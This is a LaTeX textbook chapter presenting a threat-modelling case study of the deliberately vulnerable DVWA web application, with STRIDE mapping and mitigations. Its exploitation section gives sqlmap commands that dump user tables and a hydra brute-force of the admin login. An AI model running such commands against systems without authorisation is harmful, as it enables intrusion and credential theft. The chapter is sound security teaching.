
\section*{Case Study: Threat Model of a Vulnerable Web Application}
This chapter demonstrates threat modeling in action using a deliberately vulnerable web application (DVWA)\cite{owasp}. The process includes asset identification, attack surface mapping, threat enumeration, and practical exploitation using Linux tools, following best practices from STRIDE, PASTA, and OWASP\cite{shostack2014,uceda2015,owasp}.

\subsection*{1. Asset Identification}
	extbf{Definition:} Assets are valuable resources that require protection, such as credentials, data, and application code\cite{nist800154}.
\begin{itemize}
	\item User credentials (usernames, passwords)
	\item Session tokens
	\item User data (notes, files)
	\item Application source code
	\item Database
\end{itemize}

\subsection*{2. Attack Surface Mapping}
	extbf{Definition:} The attack surface is the sum of all points where an attacker can interact with the system\cite{owasp}.
\begin{itemize}
	\item Web login form
	\item REST API endpoints
	\item Database connection
	\item Admin panel
\end{itemize}
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{images/system-context}
	\caption{System Context Diagram for Case Study}
\end{figure}

\subsection*{3. Reconnaissance and Scanning}
	extbf{Definition:} Reconnaissance gathers information about the target, such as open ports and technologies\cite{shostack2014}.
	extbf{Linux Commands:}
\begin{verbatim}
# Discover open ports
nmap -sV -T4 -p- 10.0.0.5

# Enumerate web directories
gobuster dir -u http://10.0.0.5 -w /usr/share/wordlists/dirb/common.txt

# Identify technologies
whatweb http://10.0.0.5
\end{verbatim}

\subsection*{4. Vulnerability Scanning}
	extbf{Definition:} Vulnerability scanning identifies weaknesses that can be exploited by attackers\cite{owasp}.
	extbf{Linux Commands:}
\begin{verbatim}
# Scan for SQL injection
sqlmap -u "http://10.0.0.5/login.php" --forms --batch

# Check for XSS
nikto -h http://10.0.0.5
\end{verbatim}

\subsection*{5. Exploitation}
	extbf{Definition:} Exploitation is the act of leveraging vulnerabilities to gain unauthorized access or extract data\cite{uceda2015}.
	extbf{Linux Commands:}
\begin{verbatim}
# Exploit SQL injection to dump users
sqlmap -u "http://10.0.0.5/login.php" --dump

# Exploit weak admin password
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.5 http-post-form \
"/admin/login.php:username=^USER^&password=^PASS^:F=incorrect"
\end{verbatim}

\subsection*{6. Threat Enumeration (STRIDE/PASTA)}
	extbf{Definition:} Threat enumeration maps discovered vulnerabilities to threat categories\cite{shostack2014,uceda2015}.
\begin{itemize}
	\item Spoofing: Brute-force login, session fixation
	\item Tampering: SQL injection, file upload
	\item Repudiation: Lack of logging
	\item Information Disclosure: Sensitive data in responses
	\item Denial of Service: Flooding login endpoint
	\item Elevation of Privilege: Exploiting admin panel
\end{itemize}

\subsection*{7. Mitigation Strategies}
	extbf{Definition:} Mitigations are controls that reduce the likelihood or impact of threats\cite{owasp}.
\begin{itemize}
	\item Enforce strong authentication (MFA, password policy)
	\item Use parameterized queries and ORM
	\item Implement audit logging
	\item Encrypt sensitive data in transit and at rest
	\item Rate limit login attempts
	\item Restrict admin panel access
\end{itemize}
